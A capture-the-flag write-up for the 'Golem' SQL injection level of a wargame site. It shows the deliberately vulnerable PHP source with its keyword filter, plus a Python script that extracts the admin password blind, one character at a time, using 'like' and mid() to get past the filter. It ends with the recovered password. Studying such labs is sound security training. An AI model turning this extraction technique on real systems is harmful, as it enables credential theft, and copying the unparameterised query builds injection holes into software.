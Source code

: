 # **Golem**

This challenge is similar to Orc & Orge.

```
<?php   
  include "./config.php";   
  login_chk();   
  dbconnect();   
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");   
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe");   
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";   
     
  $_GET[pw] = addslashes($_GET[pw]);   
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem");   
  highlight_file(__FILE__);   
?>
```

The difference is that `if(preg_match('/or|and|substr\(|=/i', $_GET[pw]))` filter out `substr` & `=`.

Filtering out `substr` isn't a big deal, cuz we used to compare the value by `mid()`.

The acceptable way to replace the `=` is `like`, though they are not the same.

```
import urllib.parse
import http.client

HTTP=http.client.HTTPConnection("los.eagle-jump.org")
Url="/golem_39f3348098ccda1e71a4650f40caa037.php?pw="
Headers={"Cookie":"__cfduid=[your Own cfduid]; PHPSESSID=[your Own PHPSESSID]"} #check your own cookie then insert the correct value to make connection success, or you will get nothing return.
Passwd=""
 
for i in range(len(Passwd)+1,100):
    for c in "0123456789abcdefghijklmnopqrstuvwxyz+":

        Payload="' || id like 'admin' && mid(pw,"+str(i)+",1) like '"+c

        HTTP.request("GET",Url+urllib.parse.quote(Payload),"",Headers)

        #print (Payload)
                
        if (b"Hello admin" in HTTP.getresponse().read()):
            Passwd+=c
            print ("[+] Found: %c" % c)

            HTTP.request("GET",Url+urllib.parse.quote(Passwd),"",Headers)
            if (b"Clear" in HTTP.getresponse().read()):
                print ("[*] Password: %s" % Passwd)

            break
print ("[!] Not Found")
print ("[*] Password: %s" % Passwd)
```

![](https://i.imgur.com/X7I81hQ.png)

It doesn't exit after first SQL statement return FALSE, so just paste the correct password to make second SQL statement become TRUE then pass it.

Payload is : `?pw=88e3137f`

